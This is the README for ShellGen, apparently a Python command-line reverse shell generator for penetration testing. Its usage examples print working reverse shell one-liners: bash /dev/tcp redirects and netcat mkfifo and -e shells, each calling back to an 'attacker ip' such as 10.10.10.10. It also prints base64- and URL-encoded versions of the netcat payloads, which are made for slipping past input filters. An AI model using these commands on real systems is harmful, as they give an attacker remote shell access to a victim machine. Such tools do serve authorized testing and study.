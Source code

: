# Shellgen.py 
---

     (`-').->  (`-').->  (`-')  _                                 (`-')  _ <-. (`-')_ 
     ( OO)_    (OO )__   ( OO).-/    <-.       <-.        .->     ( OO).-/    \( OO) )
    (_)--\_)  ,--. ,'-' (,------.  ,--. )    ,--. )    ,---(`-') (,------. ,--./ ,--/ 
    /    _ /  |  | |  |  |  .---'  |  (`-')  |  (`-') '  .-(OO )  |  .---' |   \ |  | 
    \_..`--.  |  `-'  | (|  '--.   |  |OO )  |  |OO ) |  | .-, \ (|  '--.  |  . '|  |)
    .-._)   \ |  .-.  |  |  .--'  (|  '__ | (|  '__ | |  | '.(_/  |  .--'  |  |\    |  
    \       / |  | |  |  |  `---.  |     |'  |     |' |  '-'  |   |  `---. |  | \   | 
     `-----'  `--' `--'  `------'  `-----'   `-----'   `-----'    `------' `--'  `--'

---
## ShellGen is a CLI, reverse shell generator made in python. Currently supports 20 different shell methods, base64 and url encoding.
## I got the idea for this tool from revshells.com and made a smaller CLI version
---
## 

    
    usage: shellgen.py [-h] [-i <attacker ip>] [-p <attacker port>] [-m method to use] [-l] [-b] [-u]

    optional arguments:
      -h, --help          show this help message and exit
      -i <attacker ip>    Attacker ip address to receive the connection back from victim machine. Default = 127.0.0.1
      -p <attacker port>  Attacker port to listen on. Default = 1337
      -m method to use    A comma seperated list of reverse shell methods. Default is bash
      -l                  List available methods for reverse shells
      -b                  Base64 encode the reverse shell output
      -u                  Url encode the reverse shell output


## Examples 
---
#### basic usage uses the three default methods, bash, python3, and nc default ip 127.0.0.1 and default port l337

    
    python3 shellgen.py 

    # No method specified with -m! Using defalt method of bash
    bash: 
        bash -i >& /dev/tcp/127.0.0.1/1337 0>&1 

        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196 

        exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done 

#### specifying a method, ip, and port
    
    python3 shellgen.py -i 10.10.10.10 -m nc -p 9001
    
    nc: 
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f  

        nc -e bash 10.10.10.10 9001  

        nc.exe -e bash 10.10.10.10 9001

                                                           
## Base64 encoded payload

    python3 shellgen.py -i 10.10.10.10 -p 9001 -b -m nc
    
    nc: 
       IHJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8YmFzaCAtaSAyPiYxfG5jIDEwLjEwLjEwLjEwIDkwMDEgPi90bXAvZiA= 

       IG5jIC1lIGJhc2ggMTAuMTAuMTAuMTAgOTAwMSA= 

       bmMuZXhlIC1lIGJhc2ggMTAuMTAuMTAuMTAgOTAwMSA= 

## Url encoded payload
    python3 shellgen.py -i 10.10.10.10 -p 9001 -u -m nc
    nc: 
       %20rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7Cbash%20-i%202%3E%261%7Cnc%2010.10.10.10%209001%20%3E/tmp/f%20 

       %20nc%20-e%20bash%2010.10.10.10%209001%20 

       nc.exe%20-e%20bash%2010.10.10.10%209001%20 

### ShellGen supports the following shell methods
- php
- bash
- nc
- c
- c#
- perl
- php-pentest-monkey
- powershell
- python
- python3
- ruby
- nodejs
- javascript
- groovy
- telnet
- zsh
- lua
- golang
- awk
- dart


## To do
- add option to save to file
